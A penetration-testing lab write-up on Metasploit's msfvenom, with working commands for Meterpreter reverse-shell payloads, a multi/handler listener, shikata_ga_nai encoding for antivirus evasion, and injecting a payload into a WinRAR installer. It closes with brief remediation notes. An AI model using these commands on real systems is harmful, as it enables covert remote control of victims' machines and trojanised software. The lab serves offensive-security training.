# MSFvenom

**Classification:** Host & Network Penetration Testing / The Metasploit Framework<br>
**Attacker:** 10.10.10.5 (Kali)

## 1. Executive Summary

`msfvenom` is Metasploit's standalone payload generator. This lab covers generating payloads
(staged vs non-staged, Windows/Linux, x86/x64), delivering and catching them with an HTTP
server + `multi/handler`, **encoding** them with `shikata_ga_nai` (and multiple iterations),
and **injecting** a payload into a legitimate executable (WinRAR) to keep its original
functionality.

## 2. Listing & Choosing Payloads

```bash
msfvenom --list payloads
```



A **staged** payload (`windows/x64/meterpreter/reverse_tcp`) downloads the rest of its code
at runtime...



...while a **non-staged** payload (`windows/x64/meterpreter_reverse_tcp`, no `/meterpreter`
sub-folder) is self-contained.



## 3. Generating Payloads

```bash
msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=1234 -f exe > payloadx86.exe
```



```bash
msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=1234 -f exe > payloadx64.exe
```



Output formats can be listed too.

```bash
msfvenom --list formats
```



Linux payloads (remember to `chmod +x` to run them).

```bash
msfvenom -a x86 -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=1234 -f elf > payloadx86
chmod +x payloadx86
```



## 4. Delivery & Handler

Hosting the payloads and starting a matching handler.

```bash
python3 -m http.server 80
```



```bash
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.10.5
set LPORT 1234
run
```





Downloading and executing the payload on the target returns a Meterpreter session.







The same works for the Linux payload (set the matching payload in the handler).







## 5. Encoding Payloads

```bash
msfvenom --list encoders
```





Encoding with `-e`, and increasing iterations with `-i`.

```bash
msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=1234 -e x86/shikata_ga_nai -f exe > encodedx86.exe
```



```bash
msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=1234 -e x86/shikata_ga_nai -i 10 -f exe > encodedx86.exe
```



## 6. Injecting into a PE (WinRAR)

Injecting the payload into a legitimate executable with `-x`, keeping functionality with
`-k`.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=1234 \
  -e x86/shikata_ga_nai -i 10 -f exe -x ~/Downloads/wrar602.exe > winrar.exe
```



The resulting `winrar.exe` runs normally while delivering a Meterpreter session when executed.

## 7. Notes & Remediation

1. Encoding (`shikata_ga_nai`) is an **evasion** aid, not encryption — modern AV/EDR detects
   these payloads behaviourally; defenders should rely on behaviour-based detection, not
   signatures.
2. **Application allow-listing** (WDAC/AppLocker) and **code-signing enforcement** stop
   trojanised binaries like `winrar.exe`.
3. **Egress filtering** blocks reverse-shell callbacks; user awareness mitigates client-side
   delivery.
